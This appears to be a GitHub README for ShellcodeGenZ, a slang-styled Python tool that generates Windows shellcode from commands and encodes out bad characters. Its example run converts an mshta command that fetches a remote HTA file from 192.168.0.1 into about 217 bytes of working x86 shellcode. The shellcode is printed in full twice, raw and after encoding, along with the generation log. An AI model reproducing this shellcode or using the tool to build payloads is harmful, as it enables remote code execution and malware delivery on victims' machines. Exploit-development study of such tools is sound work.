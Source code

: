 
# ShellcodeGenZ
![image](https://github.com/user-attachments/assets/8ba517e4-acfd-4162-9720-fe8ec78af641)
![image](https://github.com/user-attachments/assets/8984c1dc-53f4-4f5b-b887-653461ee312e)

Yo, welcome to ShellcodeGenZ, the dopest shellcode generator for commands, crafted by Zeyad Azima (https://zeyadazima.com - contact@zeyadazima.com). This tool's straight-up slayin' the game by whippin' up clean shellcode, yeetin' bad chars like nobody's biz, and droppin' logs so you know what's poppin'. Built with Gen-Z energy, it's got manual and auto modes to fix bad chars, checks for 0x00 like a boss, and keeps the vibes no cap. This is your go-to for shellcode that slaps.

## What's the Vibe?

ShellcodeGenZ takes your commands (like mshta.exe http://192.168.0.1/azi.hta) and turns 'em into shellcode that's ready to flex. It hunts down bad chars (like 0x0a, 0x0b, or the default 0x00), lets you yeet 'em manually or auto with add/subtract offsets, and logs every move so you're never lost. If 0x00 sneaks into push instructions, it's a hard pass—script's outtie. With colored output and Gen-Z slang, it's like codin' with your besties.

## Features That Slap
- Shellcode Gen: Turns commands into lit shellcode.
- Bad Char Yeeter: Spots bad chars and lets you fix 'em ( encode ) manual (pick your hex) or auto (add/subtract offsets).
- Manual Offset Drip: Choose your own offset for auto mode, or let it test 0x01 to 0xff.
- 0x00 Check: Always yeets 0x00 and bails if it's in push instructions and the whole shellcode.
- Logs for Days: Detailed logs with Gen-Z flair so you know what's good.
- Colorful Vibes: Rockin' colorama for that terminal glow-up.

## Gettin' Set Up

To dodge the externally-managed-environment drama, we settin' up a virtual env. Here's the tea:

1. Make a Virtual Env:
   ```bash
   python3 -m venv venv
   source venv/bin/activate
   ```

2. Snag the Dependencies:
   ```bash
   pip install keystone-engine colorama
   ```

3. Grab the Script:
   Clone this repo or yoink shellcode_genz.py from the files.

4. Yeet the Env (When Done):
   ```bash
   deactivate
   ```

## How to Slay with ShellcodeGenZ

1. Run the Script:
   Fire it up in your virtual env:
   ```bash
   python3 ShellcodeGenZ.py
   ```

2. Drop Your Inputs:
   - mshta command: Like mshta.exe http://192.168.0.1/azi.hta.
   - Bad chars: Comma-separated hex (e.g., 0a,0b). It always checks 0x00, no cap.

3. Yeet Bad Chars:
   - If bad chars pop up, choose to yeet 'em (Y/N).
   - Pick manual (drop new hex values) or automated (add/subtract offsets).
   - For auto, select manual offset (like 01) or automatic (tests all offsets).

4. Check the Output:
   - Shellcode drops as a byte string (e.g., b"\x...\").
   - Logs spill the tea on every step, from instructions to bad char fixes.

### Example Run

Input:
```
ShellcodeGenZ by: Zeyad Azima ( https://zeyadazima.com - contact@zeyadazima.com ) - let's get this shellcode poppin'!
Drop your mshta command to make it lit: mshta.exe https://192.168.0.1/azi.h1
Spill the bad chars to yeet (comma vibes, like '0a,0b'): 01,20,80,81
```

Output (shortened for vibes):
```
2025-04-28 03:11:20,452 - INFO - mshta instructions are straight fire:
push 0x31682e69;
push 0x7a612f31;
push 0x2e302e38;
push 0x36312e32;
push 0x39312f2f;
push 0x3a737074;
push 0x74682065;
push 0x78652e61;
push 0x7468736d;
2025-04-28 03:11:20,454 - INFO - mshta shellcode’s droppin’ like a banger: shellcode = b"\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\x8b\x47\x20\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x98\xfe\x8a\x0e\xe8\xa7\xff\xff\xff\x89\x45\x12\x68\x83\xb9\xb5\x78\xe8\x9a\xff\xff\xff\x89\x45\x16\x31\xc9\x51\x68\x69\x2e\x68\x31\x68\x31\x2f\x61\x7a\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x70\x73\x3a\x68\x65\x20\x68\x74\x68\x61\x2e\x65\x78\x68\x6d\x73\x68\x74\x54\x5b\x31\xc9\x51\x53\xff\x55\x12\x31\xc9\x51\x6a\xff\xff\x55\x16"!
2025-04-28 03:11:20,454 - INFO - Shellcode’s flexin’ at 217 bytes, no cap!
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x81 lurkin’ at index 2! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x81
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x20 lurkin’ at index 25! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x20
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x01 lurkin’ at index 55! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,454 - WARNING - Caught bad char 0x20 lurkin’ at index 62! Sus vibes.
2025-04-28 03:11:20,454 - INFO - Nearby byte be like: 0x20
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 63! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 77! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 91! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 104! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 113! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x01 lurkin’ at index 118! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x01
2025-04-28 03:11:20,455 - WARNING - Caught bad char 0x20 lurkin’ at index 187! Sus vibes.
2025-04-28 03:11:20,455 - INFO - Nearby byte be like: 0x20
Wanna yeet those bad chars? (Y/N): Y
You goin’ manual or auto for yeetin’ bad chars? (manual/automated): automated
Yo, what’s the move? Add or subtract for encodin’? (add/subtract): add
You droppin’ your own offset or we auto-pickin’? (manual/automatic): automatic
2025-04-28 03:11:51,821 - INFO - Kickin’ off bad char yeetin’ with add vibes and automatic offset slay
2025-04-28 03:11:51,821 - INFO - Bad chars we gotta yeet: 0x01, 0x20, 0x81
2025-04-28 03:11:51,821 - INFO - Chars we dodgin’: 0x01, 0x20, 0x80, 0x81, 0x00
2025-04-28 03:11:51,822 - INFO - Goin’ auto mode, testin’ offsets 0x01 to 0xff like a boss!
2025-04-28 03:11:51,822 - INFO - Dippin’ past offset 0x01 ‘cause it’s a bad char
2025-04-28 03:11:51,822 - INFO - Checkin’ offset 0x02... let’s see if it slaps
2025-04-28 03:11:51,822 - INFO -   Bad char 0x01 turnin’ into 0x03 (add 0x02)
2025-04-28 03:11:51,822 - INFO -   Bad char 0x20 turnin’ into 0x22 (add 0x02)
2025-04-28 03:11:51,822 - INFO -   Bad char 0x81 turnin’ into 0x83 (add 0x02)
2025-04-28 03:11:51,822 - INFO - YO, offset 0x02 is straight fire for add!
2025-04-28 03:11:51,822 - INFO - Replacements droppin’: 0x01 -> 0x03, 0x20 -> 0x22, 0x81 -> 0x83
2025-04-28 03:11:51,822 - INFO - Shellcode’s lookin’ fresh with new vibes: shellcode = b"\x89\xe5\x83\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x22\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x03\xdf\x8b\x4f\x18\x8b\x47\x22\x03\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x03\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x03\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x03\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x03\xda\x8b\x04\x8a\x03\xd8\x89\x44\x24\x1c\x61\xc3\x68\x98\xfe\x8a\x0e\xe8\xa7\xff\xff\xff\x89\x45\x12\x68\x83\xb9\xb5\x78\xe8\x9a\xff\xff\xff\x89\x45\x16\x31\xc9\x51\x68\x69\x2e\x68\x31\x68\x31\x2f\x61\x7a\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x70\x73\x3a\x68\x65\x22\x68\x74\x68\x61\x2e\x65\x78\x68\x6d\x73\x68\x74\x54\x5b\x31\xc9\x51\x53\xff\x55\x12\x31\xc9\x51\x6a\xff\xff\x55\x16"!
2025-04-28 03:11:51,823 - INFO - New shellcode length’s poppin’ off at 217 bytes!
ShellcodeGenZ by: Zeyad Azima ( https://zeyadazima.com - contact@zeyadazima.com ) - we slayed it, fam!
```

## Got Tea?

Wanna add more drip, report a bug, or just vibe? Hit up the issues tab or slide into Zeyad’s DMs at contact@zeyadazima.com. Let’s keep ShellcodeGenZ the most lit shellcode tool in the game.
